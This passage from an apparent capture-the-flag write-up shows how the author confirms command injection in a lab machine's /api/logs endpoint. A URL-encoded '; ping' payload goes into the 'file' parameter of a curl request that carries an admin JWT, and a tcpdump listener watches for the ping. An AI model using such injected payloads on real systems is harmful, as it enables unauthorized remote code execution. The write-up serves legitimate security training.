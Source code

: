 <figure><img src="../../.gitbook/assets/secret25.png" alt=""><figcaption></figcaption></figure>

According to the code, it’s doing something strange at line 38, like a sending a command and showing the output. To bake that command, the parameter file is being collected from the url… so maybe we can inject code there and perform a RCE in the target machine? Let’s try it:

To test it, I’ll listen in my local machine for pings in the tun0 interface:

`tcpdump -i tun0 icmp -n`

And I’ll try to send a ping from the target machine. To do so, I’ll url encode the command I want to execute: `; ping -c 1 10.10.14.13` > `%3Bping%20-c%201%2010.10.14.13`

If this is appended to the command that the target will execute, it should ping my machine.

```jsx
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmUxNmZlNGNlNmQ2NTA0NWEyZmVkZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFsbUBhbG0uY29tIiwiaWF0IjoxNjU4OTQxNjc4fQ.U4MB0eP5yc3eXWzseM_7dP2jf0JZP7RovnoMx9jv4mM' http://10.10.11.120/api/logs?file=%3Bping%20-c%201%2010.10.14.13
```

<figure><img src="../../.gitbook/assets/secret26.png" alt=""><figcaption></figcaption></figure>
